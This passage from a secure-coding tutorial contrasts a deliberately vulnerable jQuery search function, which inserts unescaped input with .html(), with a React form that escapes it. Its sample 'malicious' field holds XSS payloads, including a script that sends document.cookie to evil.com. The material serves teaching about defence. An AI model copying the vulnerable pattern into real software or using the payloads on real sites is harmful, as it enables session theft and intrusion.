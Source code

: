 **jQuery Vulnerable Implementation**:
```typescript
// VULNERABLE jQuery search implementation
function displaySearchResults(query: string, results: string[]): void {
  // Building HTML with user input
  let resultsHtml = `<h3>Search results for: ${query}</h3><ul>`;
  
  results.forEach(result => {
    resultsHtml += `<li>${result}</li>`;
  });
  
  resultsHtml += '</ul>';
  
  // XSS VULNERABILITY: Both query and results can contain scripts
  $('#search-results').html(resultsHtml);
}

// Attack will succeed
displaySearchResults(maliciousQuery, maliciousResults); // Scripts execute!
```

### Example 3: Dynamic Form Generation

**React Safe Implementation**:
```typescript
interface FormField {
  label: string;
  name: string;
  value: string;
  type: string;
}

const DynamicForm: React.FC<{fields: FormField[]}> = ({fields}) => {
  return (
    <form id="dynamic-form">
      {fields.map((field, index) => (
        <div key={index} className="form-group">
          <label htmlFor={field.name}>{field.label}</label>
          <input 
            type={field.type} 
            name={field.name} 
            defaultValue={field.value}
            id={field.name}
          />
        </div>
      ))}
      <button type="submit">Submit</button>
    </form>
  );
};

// Safe even with malicious field data
const maliciousField: FormField = {
  label: 'Email<script>alert("XSS")</script>',
  name: '" onclick="steal()" name="',
  value: '"><script>document.location="http://evil.com?c="+document.cookie</script>',
  type: 'text'
};

// React prevents all injection attempts
<DynamicForm fields={[maliciousField]} />
```
